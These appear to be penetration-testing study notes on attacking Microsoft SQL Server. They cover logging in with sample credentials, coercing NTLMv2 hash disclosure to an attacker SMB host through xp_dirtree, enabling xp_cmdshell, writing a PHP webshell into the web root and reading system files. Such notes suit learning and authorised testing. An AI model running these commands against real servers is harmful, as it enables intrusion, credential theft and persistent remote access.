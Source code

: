```yaml
---
date: '2023-04-05'
before : '2023-04-01'
after : '2023-04-05'
title: 'Abusing & Enumerating Basic MSSQL'
categories: ['C-SEC', 'ENG', 'Network']
summary: 'Enumerating & Abusing MSSQL Service'
thumbnail: '../contentImages/network/5.png'
---
```


# Abusing MSSQL

<aside>
💡 4/8 of Basic Network Services

</aside>

## 1. Connecting, Interacting with MSSQL 

CLI Commands:

```bash
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30 : windows
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h : linux
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h : when we want to use local account
mssqlclient.py -p 1433 julio@10.129.203.7 : linux
```

## 2. MSSQL Hash extracting

- What is MSSQL Hash?

MSSQL service account hash using `xp_subdirs`or `xp_dirtree`
undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. 

When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

- Privilege Escalation or we can also check for password reuse.

```bash
sudo responder -I tun0 : on our attack host
```

```bash
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

## 3. File R/W and code execution

- xp_cmdshell

```
EXECUTE sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXECUTE sp_configure 'xp_cmdshell', 1
GO
RECONFIGURE
GO
```

```bash

xp_cmdshell 'whoami'
```

- File R/W

```bash
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```

```bash
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO

1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

## 4. Impersonation and code execution

- Impersonation

Impersonation can be used to allow users who do not have permission to perform certain operations to execute those operations indirectly through a stored procedure or a user-defined function.

- Impersonation + Linked Server + Code Execution
1. Check for the possibility of Impersonation
2. Check if an impersonable user has higher permission on particular server
3. Check if xp_cmd is enabled 
4. Check if xp_cmd can be enabled
5. Check if we can execute commands

## Source

- Me!
